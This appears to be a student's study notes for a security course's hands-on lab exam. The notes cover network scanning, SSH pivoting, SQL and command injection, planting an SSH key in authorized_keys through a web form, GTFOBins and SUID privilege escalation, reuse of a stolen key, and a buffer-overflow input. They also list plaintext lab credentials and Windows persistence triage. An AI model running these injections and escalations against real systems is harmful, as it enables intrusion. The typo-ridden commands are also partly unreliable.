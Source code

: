 # SecCCTC
NEW Security CCTC


OP station LINUX 10.50.21.175 

uploads 10.50.22.59/uploads for more info
______________________________
17
JORO-501-W
Bhe032390!!
10.50.23.20 < -jump box 

____________________________

http://10.50.20.103:8000/challenges  < -- - challenges 



Needed commands
_______________________________________________________
1- for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done
2- proxychains nmap -Pn -sT 10.0.0.X -p 1-10000 -T5   or -iL --openm
3- proxychains nmap -Pn -sT 10.0.0.X -p 80 --script http-enum.nse    < -- finds other webpages
== python server command ==	
	python -m SimpleHttpServer

xfreerdp /u:student /v:localhost:RHP /dynamic-resolution +clipboar
___________________________________________

make a SSH KEY 

On opstation
ssh-keygen -t rsa -b 4096
cat .ssh/id_rua.pub
ssh www-data@ip  ( or whatever the webuser is)
9- find the userers in the /etc/password then navigate down to find the file with ls -la 
10 - move the map to the host system 

try to insert an your own key after trying tom’ OR 1 = ‘1 in both fields:
		1 -In webpage box:    < mkdir /users/home/directory/.ssh>  or other path
		2 – echo "your_public_key_here" >> /users/home/directory/.ssh/authorized_keys 
		3-  cat /users/home/directory/.ssh/authorized_keys 


  -______________________________________
  to get to second box student@ip -L 41711:192.168.28.120:4242
  then new tunnle of ssh student@127.0.0.1 -D 9050 




__________________________________________________________________
        Windows Priv esculation: Importatant to know
===First THING TO DO IS SHOW HIDDEN FILES!====
	File Explorer > File > Hidden files4624/4625
 	Always use ls -la

Next: Search: ==Task Scheduler===
	search bar > Task Scheduler  > new tasks are listed at top > Look in TS Library ..ignore one_drive stuff > Look at TRIGGERS Tab > Actions tab >  
 		 OR  schtasks /query /fo LIST /v  > powershell  >schtasks /query /fo LIST /v  | Select-String  -Pattern "Task To Run" | find /i /v "com handler"  > Start at the top look for putty.exe
    
Next: == Check Processes==
    	tasklist /v > note the PID (2222 or whatever) > query session > look at what your number session is > go back and view the tasklist /v | what you found > wmic process get name, processid, parentproessid, sessionid > scroll up to find the process you noted write down the parant process > wmic process ,where (processid=2222) list full > Do the same with the parent process you wrote > tasklist /svc | findsr /i "parent process you found" > find the location with <where /R c:\putty.exe>

Next == Services==
	look under services  > sort by discription > look for blank space > right click properties > look under all tabs > use for the ""for /f  "tokens"" command > use wimic command next > OR sc qc testservice2

 Next: == registry==   registry editor
 	HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\
  	HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\
   make sure to double click on stuff to see whole path

Next: == Audit Logging ==
auditpol /get /category:* | findstr /i "success failure"

LOOK AT EVENT ID'S 
	4624/4625 - Successful / failed login
 	4720 - Account Created
  	4672  - Administrative user logged on
   	7045 - Service created

Next: == Event Viewer ==
	

 XFREERDP Syntax: xfreerdp /v:10.50.x.x /u:student /p:password /size:1920x1000 +clipboard
________________________________________________________________________
++++++ Linux Box ++++++  order: Extra, intra, internal 
https://sec.cybbh.io/public/security/latest/lessons/lesson-10-linux-exploit_sg.html#_discuss_dot_in_the_path

commands to run once you are in a box: 
whoami |ip -br a |ss -anult | cat /etc/hosts |cat /etc/crontab |less | tasklist /v |ps -elf | cd /var/tmp/ | uname -a 
Looking for logs check /etc

FIRST
++Priv esculation steps ++
sudo -l  > https://gtfobins > look up and past command > shell >

SECOND
== SUID ==
First run one of the following:

find / -type f -perm /4000 -ls 2>/dev/null # Find SUID only files

find / -type f -perm /2000 -ls 2>/dev/null # Find SGID only files

find / -type f -perm /6000 -ls 2>/dev/null # Find SUID and/or SGID files

Compare to Lin-OPs, if its not there, look in GTFOBINS and run the command. 

see if there is a . in the path <may be admin executable>

== stolen key ==
chmod 600 /home/student/stolenkey
ssh -i /home/student/stolenkey jane@1.2.3.4
__________________________________________________________
+++++++++++++++++++++++++++++++++++++___________________________________________________________________++++++++++++++++++++++++++++++++++++++++++++++++++++++++




FOR TEST
When given an IP
1 - <nmap -Pn -sT 10.0.0.X -p- -T5 >any ip that is given (Pivot box) 
2 – any port 80s or http ports run : proxychains nmap -Pn -sT 10.0.0.X -p 80 --script http-enum.nse  to find extra webpages
3- Try all /webstuff	
	    /more webstuff
		/lostawebstuff
  ____________________________________________________________________________________________________________________________
  ONCE ON A WEBPAGE
4- The  Box that has inputs : hit go button. Then past in the Possible_end.txt in one box / To_war in another grab info for flag,
5- On the same box, command inject one of them try: ; ls -la || ; /whoami  || ; pwd  || ; cat /etc/passwd || ; cat /etc/hosts
6- grab all users from the cated etc/passwd and save them someplace (www-var ect) 
7 – try to insert an your own PUB_key after trying tom’ OR 1 = ‘1 in both fields:
		1 -In webpage box:    < mkdir /users/home/directory/.ssh>
		2 – echo "your_public_key_here" >> /users/home/directory/.ssh/authorized_keys 
		3-  cat /users/home/directory/.ssh/authorized_keys 
8- from your Lin_ops box you should be able to <ssh user@ip> without a password
***********Note: I would suggest making a new key: <ssh-keygen -t rsa> ************
__________________________________________________________________________________________________________________________

IF YOU FIND THE MAP WITH IP ADDRESS.. Make sure to EOM or scp the map to view
9- look at the map that you found for IP address.  Located at the bottom of the mad (Hint: there is also a flag)
__________________________________________________________________________________________________________________________

Tunnleing creationg and scanning for the new IPs
10 – Create a Dynamic tunnel so you can scan those IP’s (optional) IF not go to step 11. (ssh www-data@ip -D 9050)
11 – run <for i in {96..127}; do (ping -c 1 10.0.0.$i | grep "bytes from" &); done> in pivot box you got into for each IP address. (www-data box)
12 – run proxychains nmap -Pn -sT 10.0.0.X -p 1-10000 -T5 on each of the new IP’s you found. Notate any ports then run step 2 to see if there is any info for any webpages found 
13 – navigate to the new wepage and repeat step 3 
14 – Look at <page  sources> for any links as well
15 – if you come across a box that looks like it is a table: Try eploiting the URL Bar:
	A-	First try <coolwebsite.com.php? selection=1 Or 1=1> or 2 or 3 ect until tables ALL drop
	B-	Any columns displayed, put them in order <selection=<# your found> UNION SELECT 1,2,3 ect>
	C-	Use the GOLDEN STATEMENT < SELECT table_schema,table_name,column_name, 4 FROM information_schema.columns;>
 __________________________________________________________________________________________________________________________

 
PART 2
1 – In your Lin-OPS TRY EVERY COMBINATION AND PASSEORD that is given!! You should get 
A-	Linux box
B-	Windows box
_______________________________________________________________________________________


WINDOWS BOX:  FOLLOW THE WINDOWS STEPS ABOVE Line 51
1-	to access the Windows box first run a scan on the IP address that is given <step 11>
2-	run an NMAP on each new IP you found <step 1>
3-	find the box the you logged into as a windows user, look for the port that can run RDP (3889)
4-	RDP into that box 
____________________________________________________________________________________________________
a.	Set up your L tunnel <ssh www-data@jumpIP -L 1111:WinBoxIP:3389>
b.	xfreerdp /u:student /v:localhost:RHP /dynamic-resolution +clipboard
5-	Look around for files in USERS. Go to < C drive >> Users > Look for a sus folder
6-	For Persistence  check the regedit < search bar – regedit – follow the HKEY path  -- look at all the paths there and make sure to copy the ENTIRE path of the sus one. The file path is the last </name.here>
7-	For Called Program, follow the path:  <C:\WINDOWS\system32\WindowsPowerShell\v1.0\powershell.exe -executionpolicy bypass -windowstyle hidden -NoExit -file "C:\Program Files\scripts\kpersky_start.ps1">
8-	To get into admin home: You need to grab the file that they will give us and transfer it from your HOST to your WINDOWS: (Log into your account and download it)
	a.	On the windows box, open a webpage, navigate to the test website, download file. DONE use the account name and pass they give ya
____________________________________________________________________________________________________

Linux Explotaition
192.168.28.10 Kmichae pass MrMeeseeks 
1- sudo -l  < -- if this works goto GTFO webpage and search for the exploit! Copy past exploit then type <bash> for a esculated shell.
2 –<Bash> then ls -la 
3 you will see exploit.this
4- ./exploitthis AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
____________________________________________________________________________________________________

For inside root dir, 
1-	Log in as the user, 
2-	Sudo -l 
3-	Look for set UID and GUID
4-	Use the  find / -perm command <command here>
5-	A list of binaries will show
6-	On linops, run the same exact command and compare both of them Find the one that is not on one of the systems
7-	Then go to GTFO and look up that one and reserc the exploit
8-	 Make sure you do the intire path -p 
5 – Next follow buffer overflow steps.
For what program can give you higher priv, mak sure you find the buffer overflow  file in one of the questions

1-	To see what is inside the root dierectory
2-	2 find what Binary used 
POST exploitation
	1 – To view running process <ps -elf > look for one that ryscslogd
3-	Cat /ect/rcyslog.conf  for flag in comments
4-	To find the password use the find command find / iname “password” -file the cat the full path to file 
